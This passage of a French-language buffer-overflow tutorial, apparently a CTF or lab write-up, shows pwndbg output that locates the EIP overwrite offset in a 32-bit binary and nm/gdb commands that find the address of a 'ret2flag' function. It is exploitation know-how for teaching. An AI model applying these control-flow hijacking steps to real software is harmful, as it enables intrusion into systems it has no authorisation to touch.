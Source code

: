 ```bash
─────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg$ # on calcul l'offset (d'autres méthodes existent comme ave pattern offset)
pwndbg$ pattern search
Registers contain pattern buffer:
EBX+0 found at offset: 22
EBP+0 found at offset: 26
EIP+0 found at offset: 30
Registers point to pattern buffer:
[ESP] --> offset 34 - size ~66
Pattern buffer found at:
0x00405160 : offset    0 - size  100 ([heap])
0xbffff2fe : offset    0 - size  100 ($sp + -0x22 [-9 dwords])
0xbffff57f : offset    0 - size  100 ($sp + 0x25f [151 dwords])
References to pattern buffer found at:
0xb7fb3d84 : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d88 : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d8c : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d90 : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d94 : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d98 : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xb7fb3d9c : 0x00405160 (/usr/lib/i386-linux-gnu/libc-2.28.so)
0xbffff164 : 0x00405160 ($sp + -0x1bc [-111 dwords])
0xbffff1c8 : 0x00405160 ($sp + -0x158 [-86 dwords])
0xbffff1e8 : 0x00405160 ($sp + -0x138 [-78 dwords])
0xbffff1f4 : 0x00405160 ($sp + -0x12c [-75 dwords])
0xbffff214 : 0x00405160 ($sp + -0x10c [-67 dwords])
0xbffff224 : 0x00405160 ($sp + -0xfc [-63 dwords])
0xbffff274 : 0x00405160 ($sp + -0xac [-43 dwords])
0xbffff264 : 0xbffff2fe ($sp + -0xbc [-47 dwords])
0xbffff2e0 : 0xbffff2fe ($sp + -0x40 [-16 dwords])
0xbffff2e4 : 0xbffff57f ($sp + -0x3c [-15 dwords])
0xbffff3e8 : 0xbffff57f ($sp + 0xc8 [50 dwords])
pwndbg$ # l'offset qui nous intéresse est donc 30
```

Maintenant, il faut récupérer l'adresse de la fonction `ret2flag` que l'on souhaite appeler. Pour ce faire, on peut utiliser `nm` qui permet de lister le noms des **symboles** présents dans notre fichier binaire:

```bash
$ nm bof | grep ret2flag
000011a9 T ret2flag
```

On peut également le faire avec `gdb` avec la commande `info fu`:

```
pwndbg$ info fu
All defined functions:

Non-debugging symbols:
0x00001000  _init
0x00001030  strcpy@plt
0x00001040  puts@plt
0x00001050  __libc_start_main@plt
0x00001060  __cxa_finalize@plt
0x00001070  _start
0x000010b0  __x86.get_pc_thunk.bx
0x000010c0  deregister_tm_clones
0x00001100  register_tm_clones
0x00001150  __do_global_dtors_aux
0x000011a0  frame_dummy
0x000011a5  __x86.get_pc_thunk.dx
0x000011a9  ret2flag
0x000011d4  func
```
